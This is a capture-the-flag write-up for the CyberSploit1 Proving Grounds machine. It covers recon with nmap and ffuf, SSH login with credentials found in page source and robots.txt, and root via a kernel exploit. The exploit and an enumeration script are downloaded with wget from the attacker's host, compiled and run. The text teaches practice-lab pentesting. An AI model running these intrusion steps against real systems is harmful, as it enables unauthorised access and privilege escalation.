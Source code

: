 ```yaml
---
title: "CyberSploit 1"
date: 2024-09-29
draft: false
summary: "Writeup for the CyberSploit1 proving grounds CTF challenge."
tags: ["linux", "hardcoded creds", "kernel exploit"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/cybersploit1/cover.webp"
  caption: "CyberSploit1 Proving Grounds Challenge"
  alt: "CyberSploit1 cover"
platform: "Misc"
---
```


**CyberSploit** is an easy CTF challenge on Offsec's Proving Ground Play. It requires us to capture 2 flags by exploiting different vulnerabilities and misconfigurations on the target.
<!--more-->
To access the machine, click on the link given below:
- https://portal.offsec.com/labs/play

## Reconnaissance

I performed an **nmap** aggressive scan to find running ports, services and os related information.

```shell
nmap -A -p- TARGET -oN cybersploit1 --min-rate 10000
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |

![](https://cdn.ziomsec.com/cybersploit1/1.webp)

## Foothold

Since the target was running a web application, I accessed it using my browser and found a static webpage.

![](https://cdn.ziomsec.com/cybersploit1/2.webp)

The page did not reveal anything useful initially so I viewed the page source and found a username commented out towards the end of the **html** document.

![](https://cdn.ziomsec.com/cybersploit1/3.webp)

Next I performed web fuzzing using **ffuf** and discovered the **robots.txt** file.

```shell
ffuf -u http://TARGET/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt
```

![](https://cdn.ziomsec.com/cybersploit1/4.webp)

Accessing **`/robots.txt`** revealed a base64 encoded string. So I decoded it using the **base64** command line utility.

```shell
curl http://TARGET/robots.txt | base64 -d
```

![](https://cdn.ziomsec.com/cybersploit1/5.webp)

This seemed interesting but initially I had no idea what this meant. I did some more reconnaissance on the website and found nothing useful.

Since the target was running **ssh**, and I had discovered a username; I tried using this as a password to log into the system.

```shell
ssh itsskv@TARGET
# PASSWORD
```

![](https://cdn.ziomsec.com/cybersploit1/6.webp)

After getting initial access, I listed out the contents of my current directory and found the first flag in **local.txt**.

```shell
cat local.txt
```

![](https://cdn.ziomsec.com/cybersploit1/7.webp)

## Privilege Escalation

For privilege escalation, I downloaded **linux smart enumeration** script from github on my local system and transferred it to the target.

```shell
 $ wget "http://KALI:8080/lse.sh"
 $ chmod +x lse.sh
```

![](https://cdn.ziomsec.com/cybersploit1/8.webp)

I executed the script and found some interesting results.

![](https://cdn.ziomsec.com/cybersploit1/9.webp)
![](https://cdn.ziomsec.com/cybersploit1/10.webp)
![](https://cdn.ziomsec.com/cybersploit1/11.webp)

The script identified a couple of misconfigurations which I looked into but found nothing interesting. I then tried looking for kernel exploits. I viewed my kernel version using the following command:

```bash
uname -r
```

I googled available exploits for the version and found some on **exploit db**.

![](https://cdn.ziomsec.com/cybersploit1/12.webp)

![](https://cdn.ziomsec.com/cybersploit1/13.webp)

I downloaded the exploit on my system and started a python http server to transfer it on the target.

```shell
python3 -m http.server 8080
```

![](https://cdn.ziomsec.com/cybersploit1/14.webp)

I downloaded the exploit from my local machine and compiled it using **gcc**.

```shell
$ wget "http://KALI:8080/37292.c"
$ gcc 37292.c -o priv
```

![](https://cdn.ziomsec.com/cybersploit1/15.webp)

Finally I ran the exploit and got root shell.

```shell
$ chmod +x priv
$ ./priv
```

![](https://cdn.ziomsec.com/cybersploit1/16.webp)

I spawned a pty shell and then navigated to the `/root` directory to capture the final flag.

```shell
$ export TERM=xterm
$ python -c 'import pty;pty.spawn("/bin/bash")'
$ cat proof.txt
```

![](https://cdn.ziomsec.com/cybersploit1/17.webp)

## Closure

Here's a summary of how I pwned the machine:
- I found the username to be hardcoded in the html page.
- I performed web fuzzing and found `/robots.txt`
- I found the password in base64 encoded format in `/robots.txt`.
- I used the username and password to get initial access.
- I found the first flag in my home directory.
- I exploited the kernel to escalate my privilege.
- I captured the final flag from the `root` directory.

Happy Hacking! 🎉

---





























